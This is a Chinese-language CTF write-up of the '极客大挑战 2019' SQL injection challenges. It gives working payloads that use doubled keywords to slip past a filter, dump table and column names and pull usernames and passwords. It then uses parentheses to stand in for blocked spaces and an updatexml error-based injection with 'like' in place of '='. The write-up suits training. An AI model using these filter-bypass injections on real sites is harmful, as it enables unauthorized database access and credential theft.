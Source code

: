 ```
?username=1+%2B&password=admin' uunionnion seselectlect 1,2,3--+
```

之后都是常规的方法

```
?username=1%2B&password=admin' uunionnion seselectlect 1,database(),group_concat(table_name) ffromrom infoorrmation_schema.tables whwhereere table_schema='geek'--+
```

```
?username=1%2B&password=admin' uunionnion seselectlect 1,database(),group_concat(column_name) ffromrom infoorrmation_schema.columns whwhereere table_name='b4bsql'--+
```

```
?username=1%2B&password=admin' uunionnion seselectlect 1,database(),group_concat(id,username,passwoorrd) ffromrom b4bsql--+
```

最后得到flag

### [极客大挑战 2019]HardSQL

尝试了双写绕过，union啥的都不行，查wp发现是空格被过滤了

> 这里使用`()`​来绕过空格，括号是用来包含子查询的，任何可以计算出结果的语句都可以用括号括起来，括号两端可以没有多余的空格

是url编码的问题  
这题和之前不一样，如果不url编码就绕过不了

![image-20250210102242526](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250210102242526.png)

![image-20250210110316017](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250210102309753.png)

然后继续尝试，使用报错注入

```
?username=111'or(updatexml(1,concat(0x7e,database(),0x7e),1))%23
```

查到数据库名geek

然后这里好像还过滤了=号，所以查表名要换`like`​用法

> like可以用来筛选特定的记录

```
?username=111'or(updatexml(1,concat(0x7e,(select(table_name)from(information_schema.tables)where(table_schema)like('geek')),0x7e),1))%23
```

![image-20250210110052641](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250210110316017.png)

```
?username=111'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23
```
